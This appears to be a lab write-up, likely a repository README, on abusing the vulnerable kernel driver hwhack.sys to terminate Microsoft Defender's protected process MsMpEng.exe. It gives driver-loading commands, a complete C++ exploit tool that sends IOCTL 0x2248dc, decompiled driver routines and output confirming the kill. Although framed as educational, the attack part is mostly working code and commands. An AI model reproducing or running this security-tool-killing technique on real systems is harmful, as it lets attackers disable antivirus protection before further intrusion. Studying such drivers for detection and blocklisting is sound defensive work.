 # Vulnerable Driver Analysis: `hwhack.sys`

This lab walks through the steps for loading, interacting with, and exploiting a vulnerable driver (`hwhack.sys`) for educational purposes. The main target is the protected Microsoft Defender process `MsMpEng.exe`, which cannot normally be terminated by a standard user due to protected process (PPL) status.

---

## 1. Driver Load and Execution

Password: 3c0df68b0783a85a2df281d4f840fbaa1eb7a6f0e136b206f7a302db26a15a7c

### Create & Start the Driver

```cmd
sc create hwhack binPath=C:\hwhck.sys type=kernel
sc start hwhack
```
```text
[SC] CreateService CORRECTO
```

Output:

```text
NOMBRE_SERVICIO: hwhack
        TIPO               : 1  KERNEL_DRIVER
        ESTADO             : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        CÓD_SALIDA_WIN32   : 0  (0x0)
        CÓD_SALIDA_SERVICIO: 0  (0x0)
```

The driver is now running in kernel mode.

---

## 2. Target Process: Microsoft Defender (`MsMpEng.exe`)

### Attempting to Kill from Userland

```cmd
taskkill /PID 3868 /F
```

```text
Error: no se pudo terminar el proceso con PID 3868.
Motivo: Acceso denegado.
```

As expected, the system prevents the termination of PPL-protected processes like Microsoft Defender.

---

## 3. Exploiting the Driver

Now we use the custom **userland exploit tool** to send an IOCTL to the driver and instruct it to terminate the target PID from kernel mode.

### 🧬 Source Code: `drv_hwhck.cpp`

```cpp
#include <windows.h>
#include <iostream>
#include <cstdint>
#include <cstdio>
#include <cstdlib>

#define IOCTL_TERMINATE 0x2248dc               // Custom IOCTL code for termination
#define DEVICE "\\\\.\\HWAudioX64"             // Device interface name (symbolic link from driver)

// Run as administrator!
int main(int argc, char** argv) {
    ULONG_PTR output[1] = { 0 };
    ULONG bytesReturned = 0;
    DWORD lastError = 0;

    HANDLE hDevice = CreateFileA(
        DEVICE,
        GENERIC_WRITE | GENERIC_READ,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        lastError = GetLastError();
        printf("[-] Failed to open device. Error: %d (0x%x)\n", lastError, lastError);
        return 1;
    }

    printf("[+] Device handle obtained.\n");

    unsigned int pid;
    DWORD lpBytesReturned = 0;

    printf("PID please : \n");
    scanf("%u", &pid);

    BOOL result = DeviceIoControl(
        hDevice,
        IOCTL_TERMINATE,      // Send IOCTL 0x2248dc
        &pid, sizeof(pid),    // Input buffer (PID)
        NULL, 0,              // No output buffer
        &lpBytesReturned,
        NULL
    );

    if (!result) {
        lastError = GetLastError();
        printf("[-] DeviceIoControl failed. Error: %d (0x%x)\n", lastError, lastError);
    } else {
        printf("[+] DeviceIoControl succeeded.\n");
    }

    CloseHandle(hDevice);
    return 0;
}
```

---
```cmd
drv_hwhck.exe
```

Sample interaction:

```text
[+] Device handle obtained.
PID please :
3868
[+] DeviceIoControl succeeded.
```

This bypasses userland security by:
1. Opening the target PID from kernel space.
2. Calling `ZwTerminateProcess`, regardless of PPL protection.

This allows even protected processes like `MsMpEng.exe` to be terminated.


---

## 4. Why This Works

The driver contains a custom IOCTL dispatcher that handles a specific request code:

```c
if (param_1 == 0x2248dc) {
    uVar1 = call_to_zwterminate((longlong)param_2);
}
```

This means when the userland tool sends **IOCTL `0x2248dc`**, the driver calls `call_to_zwterminate()`, a function that safely opens a process handle in kernel mode and calls `ZwTerminateProcess()`.

### Function Breakdown:

#### `call_to_zwterminate`

```c
undefined4 call_to_zwterminate(longlong param_1)
{
  if ((*(uint **)(param_1 + 0x18) != (uint *)0x0) &&
     (*(int *)(*(longlong *)(param_1 + 0xb8) + 0x10) == 4)) {
    return to_zwterminate((ulonglong)**(uint **)(param_1 + 0x18));
  }
  *(undefined8 *)(param_1 + 0x38) = 0;
  return 0xc000000d;
}
```

- Checks if valid input and method
- Extracts the PID and forwards it to `to_zwterminate()`

#### `to_zwterminate`

```c
undefined4 to_zwterminate(ulonglong pid)
{
  longlong hProc = to_openprocess(pid);
  if (hProc != 0) {
    ZwTerminateProcess(hProc, 0);
    ZwClose(hProc);
    return 0;
  }
  return ERROR_INVALID_HANDLE;
}
```

- Opens a handle to the process in kernel mode
- Terminates it using `ZwTerminateProcess`, bypassing PPL
- Closes the handle

This is how the driver successfully kills even protected processes from kernel space.

---

## 5. Verifying the Result

```cmd
tasklist | findstr /IM MsMpEng
```

Initially returns the PID (`3868`), but after the driver is triggered, repeated checks return nothing — meaning the process was terminated.

Eventually:

```text
MsMpEng.exe                   1152 Services                   0   227.180 KB
```

Defender restarts itself automatically via its service.

---
